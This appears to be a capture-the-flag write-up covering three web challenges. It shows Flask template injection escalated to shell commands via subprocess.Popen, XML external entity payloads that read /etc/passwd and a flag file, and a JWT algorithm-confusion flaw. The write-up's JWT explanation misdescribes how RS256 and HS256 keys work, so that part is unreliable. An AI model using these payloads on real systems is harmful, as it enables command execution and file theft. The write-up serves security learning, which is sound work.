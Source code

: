 * * *
![image](https://github.com/user-attachments/assets/744acab1-abef-48c8-babd-c61ed1646cc9)

* * *

### **Challenges**

### **Web**

-     Parrot the emu
-     Zoo feedback form
-     Co2
-     I am Confusion

---------------------------------

### Web

### Challenge: Parrot the emu

----------------------------------

![image](https://github.com/user-attachments/assets/8f1e8226-6491-4ec6-8705-30129f0adc5e)


- The index route `/` is the vulnerable part of the web app's code. The index page passes the `user_input` variable  to  the `render_template_string()` which is vulnerable to server side template injection in flask web apps' code.It allows an attacker to inject code into templaates.

      @app.route('/', methods=['GET', 'POST'])
      def vulnerable():
          chat_log = []
      
          if request.method == 'POST':
              user_input = request.form.get('user_input')
              try:
                  result = render_template_string(user_input)
              except Exception as e:
                  result = str(e)
      
              chat_log.append(('User', user_input))
              chat_log.append(('Emu', result))
          
          return render_template('index.html', chat_log=chat_log)

- Testing our little fact by executing \{\{7*7\}\},the server returned the value `49`

![image](https://github.com/user-attachments/assets/f30a52a9-2651-4f55-8e01-c577b0da806b)

### RCE

- I used the payload \{\{''.\_\_class\_\_.\_\_base\_\_.\_\_subclasses\_\_()\}\} to access the classes available

![image](https://github.com/user-attachments/assets/a4b3b2a7-ca56-4dbd-812d-d42543db5721)

- After checking the list of available classes, I got shell command access with class `subprocess.Popen` on index `213`

       Payload: ''.__class__.__base__.__subclasses__()[213]

![image](https://github.com/user-attachments/assets/ce45878b-c7f2-4b2a-9005-6784a09b30a3)

### Reading the flag

- Flag payload

      Payload: ''.__class__.__base__.__subclasses__()[213]("cat flag",shell=True,stdout=-1).communicate()

![image](https://github.com/user-attachments/assets/9312e1e3-ace1-42cc-8fff-53d6714c7bda)

- Flag-:```DUCTF{PaRrOt_EmU_ReNdErS_AnYtHiNg}```

---------------------------------------

### Challenge: Zoo Feedback form

---------------------------------------

![image](https://github.com/user-attachments/assets/25cbd005-207a-423c-b2e1-9403eb6efbb7)

- After reviewing the source code, I noticed that `resolve_entities` was set to `True` which forces lxml parser to resolve external entities. In a whole, the main vulnerability is `XML External Entity Expansion` which allows an attacker to inject xml entities into a web application.

  Vulnerable Code:
            
            try:
               parser = etree.XMLParser(resolve_entities=True)

- Fix: Set resolve_entities to `False`

- I intercepted the request with burpsuite

![image](https://github.com/user-attachments/assets/4da48e9d-c2f3-42ca-92b1-aeb1e05ba5ac)

- I used this payload to read the `/etc/passwd` file

  Payload:

      <?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
                  <root>
                 <feedback>
                  &example;
                 </feedback>
                  </root>

![image](https://github.com/user-attachments/assets/7451bb98-b2c6-47f4-8c3b-17f946a889f2)

- Then, I read the flag located at `/app/flag.txt`.

            <?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY example SYSTEM "/app/flag.txt"> ]>
                        <root>
                       <feedback>
                          &example;
                        </feedback>
                        </root>

![image](https://github.com/user-attachments/assets/ab20d730-43d0-48d2-99bd-f933e65dc8ee)

- Flag-:```DUCTF{emU_say$_he!!0_h0!@_ci@0}```
--------------------------

### Challenge: I am Confusion

--------------------------

![image](https://github.com/user-attachments/assets/9a30d811-d76a-4d40-9a0f-1dca3b2452ee)

- Source code:

                  // ascii art
                  const asciiArt = fs.readFileSync('ascii-art.txt', 'utf8');
                  
                  // algs
                  const verifyAlg = { algorithms: ['HS256','RS256'] }
                  const signAlg = { algorithm:'RS256' }
                  
                  // keys
                  // change these back once confirmed working
                  const privateKey = fs.readFileSync('keys/priv.key')
                  const publicKey = fs.readFileSync('keys/pubkeyrsa.pem')
                  const certificate = fs.readFileSync('keys/fullchain.pem')
                  
                  // middleware
                  app.use(express.static(__dirname + '/public'));
                  app.use(express.urlencoded({extended:false}))
                  app.use(cookieParser())
                  
                  app.get('/', (req, res) => {
                    res.status(302).redirect('/login.html')
                  });
                  
                  app.post('/login', (req,res) => {
                    var username = req.body.username
                    var password = req.body.password
                  
                    if (/^admin$/i.test(username)) {
                      res.status(400).send("Username taken");
                      return;
                    }
                  
                    if (username && password){
                      var payload = { user: username };
                      var cookie_expiry =  { maxAge: 900000, httpOnly: true }
                  
                      const jwt_token = jwt.sign(payload, privateKey, signAlg)
                  
                      res.cookie('auth', jwt_token, cookie_expiry)
                      res.redirect(302, '/public.html')
                    } else {
                      res.status(404).send("404 uh oh")
                    }
                  });
                  
                  app.get('/admin.html', (req, res) => {
                    var cookie = req.cookies;
                    jwt.verify(cookie['auth'], publicKey, verifyAlg, (err, decoded_jwt) => {
                      if (err) {
                        res.status(403).send("403 -.-");
                      } else if (decoded_jwt['user'] == 'admin') {
                        res.sendFile(path.join(__dirname, 'admin.html')) // flag!
                      } else {
                        res.status(403).sendFile(path.join(__dirname, '/public/hehe.html'))
                      }
                    })
                  })
                  
                  app.get('/public.html', (req, res) => {
                    var cookie = req.cookies;
                    jwt.verify(cookie['auth'], publicKey, verifyAlg, (err, decoded_jwt) => {
                      if (err) {
                        res.status(302).redirect('/login.html');
                      } else if (decoded_jwt['user']) {
                        res.sendFile(path.join(__dirname, 'public.html'))
                      }
                    })
                  })

- The challenge's implements the RS256 but it is vulnerable to `JWT Confusion Attack` which occurs when a server allows the use of algorithm `RS256` and `HS256` in verifying a `Json Web Token`. A `RS256` algorithm applies the asymmetric form of encryption that encrypts with the public key and can only be decrypted with the private key. `Hs256` on the other hand applies the symmetric form of encryption requiring only the public key for encryption. If the jwt `'alg'` header is set `hs256`, the server decrypts only with the public key. If an attacker can derive the public key, he can decrypt the jwt token and edit it for malicious purposes.

### Vulnerable code snippets

- The code verifies the algorithm of a token by comparing with value `hs256 and rs256` and signs the token only with `rs256`

        // algs
      const verifyAlg = { algorithms: ['HS256','RS256'] }
      const signAlg = { algorithm:'RS256' }
      
- The code verifies the alg by comparing the `alg` value with the `verifyAlg` variable and not the `signAlg` variable

      jwt.verify(cookie['auth'], publicKey, verifyAlg, (err, decoded_jwt)


--------------------------
### References:
--------------------------

- Lxml.etree's XXE Attack: [Codeql's blog](https://codeql.github.com/codeql-query-help/python/py-xxe/)
- XXE's details: [Hacktrickz](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity)
